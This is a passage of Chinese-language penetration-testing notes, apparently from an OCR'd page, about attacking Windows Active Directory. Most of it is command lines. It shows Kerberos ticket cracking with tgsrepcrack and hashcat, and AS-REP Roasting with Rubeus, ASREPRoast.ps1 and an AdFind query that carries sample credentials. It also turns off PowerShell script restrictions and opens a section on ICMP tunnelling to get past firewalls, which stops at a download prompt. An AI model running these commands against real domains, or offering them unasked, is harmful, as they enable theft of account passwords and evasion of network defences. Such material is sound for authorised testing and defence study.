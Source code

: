 ```plain
python2 tgsrepcrack.py password.txt xx.kirbi
## xx.kirbi 为票据信息

然后用 hashcat 进行爆破
hashcat -m 13100 hash.txt pass.txt
```

## AS-REP Roasting 攻击

在域中，对于域用户来说，如果设置不要求 `Kerberos预身份验证`，此时向域控制器 88 端口发送一个`AS_REQ`请求，此时域控会不作任何验证 便将 `TGT票据` 和 加密的 `Session-key`等信息返回。对收到的 `AS_REP`内容（enc-part 底下的 ciper，这部分使用用户 hash 加密的 session-key，然后通过离线爆破获取用户`Has)`进行重新组合，最终拼接成`Kerberos 5 AS-REP etype 23 (18200)`的格式，接下来可以使用`hashcat工具`对其破解，最终获得该用户的明文口令。  
命令如下  
工具链接：[https://github.com/HarmJ0y/ASREPRoast](https://github.com/HarmJ0y/ASREPRoast)  
提取 `Hash`命令如下 xiongshen zhenshuang

```plain
Rubeus.exe asreproast /format:john /outfile:hash.txt

SREPROast.ps1(域内机器) 脚本利用
    下载：

    修改powershell策略可以加载脚本
    Set-ExecutionPolicy -ExecutionPolicy RemoteSigned -Scope CurrentUser
    命令:
    Import-Module .\ASREPRoast.ps1
    Invoke-ASREPRoast | select -ExpandProperty Hash
```

```plain
非域内机器的我这里的利用思路是通过 adfind 或者 bloodhound 查询不需要 Kerberos
预身份验证的账户，之后在使用 Impacket 下的 GetNPUsers.py 脚本获取指定用户的 Hash
加密的 Login Session Key。
Adfind 查询：
Adfind.exe -h 10.211.55.100 -u test\lisi -up Pass123 -f "useraccountcontrol:1.2.840.113556.1.4.803:=4194304" dn
```

`hashcat爆破`

```plain
hashcat64.exe -m 18200 hash.txt pass.txt --force
```

# 内网网络隧道多种方式

## ICMP 隧道

ICMP 隧道又称 `ICMP Internet控制报文协议`，用于在 IP 主机、路由器之间的传递控制消息 (网络是否连通)。ICMP 是通过 `Ping`命令访问远程计算机，建立 `ICMP隧道`，将 TCP/UDP 数据封装到 ICMP 的 PING 数据包中，从而绕过防火墙实现不受限制的访问。  
下载：
